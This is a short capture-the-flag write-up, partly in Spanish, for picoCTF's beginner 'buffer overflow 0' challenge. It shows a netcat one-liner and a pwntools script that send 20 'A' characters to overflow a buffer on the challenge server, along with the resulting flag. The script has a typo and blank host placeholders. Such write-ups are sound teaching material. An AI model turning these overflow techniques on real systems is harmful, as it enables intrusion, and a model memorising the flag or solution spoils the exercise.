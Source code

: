 ## Objetivo
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c).

Hint
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read? 
## Solucion

```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~/picoCTF/binexp/parte-1/buffer-overflow-0]
└─$ nc saturn.picoctf.net 61246 <<< $(python3 -c "print('A'*20)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Solucion 2

```python
from pwn import *

p = remot('',puerto)
print(p.recv().decode())

overflow = b'A' * 20
print ('[*] Enviando overflow....')
p.sendline(overflow)

print(p.recvall().decode())
print('[*] terminado')
```
## Notas adicionales
## Referencias